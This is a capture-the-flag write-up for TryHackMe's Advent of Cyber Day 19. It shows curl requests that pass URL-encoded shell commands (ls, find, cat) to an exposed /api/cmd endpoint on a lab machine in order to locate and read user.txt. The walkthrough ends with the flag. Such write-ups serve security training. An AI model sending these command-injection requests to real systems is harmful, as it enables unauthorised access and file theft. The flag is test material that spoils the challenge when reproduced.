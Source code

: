 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 19
## What are the contents of the `user.txt` file?
1. Given the `/api/cmd/ls` endpoint, we get a JSON response which details typical `/`-level Linux directories:
```bash
$ curl http://<MACHINE_IP>:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}
```
2. A `find` command can be issued with space being encoded to `%20` and a `/` being  encoded to `%2f` in order to find the path of `user.txt`:
```bash
$ curl http://<MACHINE_IP>:3000/api/cmd/find%20%2f%20-name%20"user.txt"
{"stdout":"/home/bestadmin/user.txt\n","stderr":""}
```
3. A `cat` command can be issued with space being encoded to `%20` and a `/` being  encoded to `%2f` in order to print the content of `user.txt`:
```
$ curl http://<MACHINE_IP>:3000/api/cmd/cat%20home%2fbestadmin%2fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
```

**Answer**: `5W7WkjxBWwhe3RNsWJ3Q`